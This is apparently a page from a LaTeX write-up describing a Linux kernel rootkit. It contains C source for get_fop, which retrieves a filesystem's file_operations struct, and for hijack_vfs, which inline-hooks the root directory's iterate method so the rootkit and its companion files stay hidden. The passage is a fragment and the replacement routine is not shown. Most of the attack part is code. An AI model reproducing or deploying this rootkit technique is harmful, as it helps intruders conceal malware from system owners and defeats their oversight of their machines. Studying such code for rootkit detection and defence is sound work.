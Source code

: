 \documentclass[11pt]{article}
\begin{document}
Obtaining a pointer to the \texttt{file_operations} struct for a filesystem mounted at a particular path has been abstracted into \texttt{get_fop}:
\begin{verbatim}
/**
 * Given a filepath, returns a pointer to its file_operations struct.
 *
 * @param path The filepath to retrieve the f_op struct pointer from.
 * @return A pointer to an f_op struct for path if it exists, NULL otherwise.
 */
struct file_operations *get_fop(const char *path) {
    struct file *f;

    if ((f = filp_open(path, O_RDONLY, 0)) == NULL) return NULL;

    struct file_operations *ret = (struct file_operations *) f->f_op;
    filp_close(f, 0);

    return ret;
}
\end{verbatim}

\newpage


\subsection{Hiding Files}
As touched on prior, we can hide files by hooking the \texttt{iterate} file operation for the filesystem mounted at `/' and tampering with how the \texttt{context->filldir} method populates the \texttt{context} parameter. This is done by within \texttt{hijack_vfs}:
\begin{verbatim}

/**
 * Hijacks the VFS in order to gain control over the filesystem. For our
 * purposes this will largely be used to hide files in plain sight. (The kit
 * itself and all of its friends).
 *
 * This function works by finding the function pointer to the iterate method of
 * the root directory and performing an inline hook to modify its prologue
 * bytes to transfer execution to our replacement filldir routine.
 */
void hijack_vfs(void) {

    // Check we're operating on a 3.1.1 kernel and above.
    #if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 1, 1)

        // Perform our dastardly switcheroo of the root iterate function.
        asm_hook_create(get_fop("/")->iterate, root_iterate);

    #endif
}
\end{verbatim}
\end{document}
